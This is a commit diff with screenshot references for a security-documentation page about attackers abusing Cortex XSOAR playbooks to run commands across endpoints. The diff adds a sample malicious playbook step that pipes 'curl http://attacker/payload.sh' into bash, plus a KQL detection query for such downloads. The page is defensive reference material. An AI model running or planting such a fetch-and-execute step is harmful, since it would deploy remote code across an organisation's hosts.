

Before and after one commit to 0xAnalyst/Project-Lost, a Jekyll site: the page built from _tool/CortexXSOAR.md, in a window 1280 px wide, cut to the strip 0-1094 px from the top of the page. Shown: the whole strip, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
Update CortexXSOAR.md

````diff
--- a/_tool/CortexXSOAR.md
+++ b/_tool/CortexXSOAR.md
@@ -3,17 +3,36 @@
 tags:
   - Execution
   - Lateral Movement
+  - Defense Evasion
 references:
   - https://www.paloaltonetworks.com/cortex/xsoar
 files: []
 ---
 
-Cortex XSOAR is an automation platform. Attackers abuse playbooks to execute commands enterprise-wide.
+Cortex XSOAR is a SOAR platform used to orchestrate and automate incident response workflows across many tools and endpoints. If compromised, it becomes a powerful framework for attackers to execute commands across the environment.
 
-# Abusing Playbooks for RCE
+# Abusing Playbooks for Remote Command Execution
 
 ## Description
-Compromised XSOAR credentials allow attackers to run PowerShell across all endpoints.
+Threat actors can modify or create XSOAR playbooks that execute scripts (for example via SSH, WinRM, or EDR integrations) and then trigger them to deploy malware or tooling to large numbers of hosts.
+
+## Simulation
+```yaml
+- name: Malicious Playbook Step
+  script: 'ssh-command'
+  args:
+    cmd: "curl http://attacker/payload.sh | bash"
+```
 
 ## MITRE ATT&CK
-T1059 – Execution
+T1059 – Command and Scripting Interpreter
+T1021 – Remote Services
+
+## Detections
+```kql
+// Focused on endpoints receiving suspicious commands from management servers
+DeviceProcessEvents
+| where InitiatingProcessAccountName in ("xsoar","automation","soar-svc")
+| where ProcessCommandLine has_any ("curl http://","Invoke-WebRequest","wget ")
+| project Timestamp, DeviceName, InitiatingProcessAccountName, ProcessCommandLine
+```
````
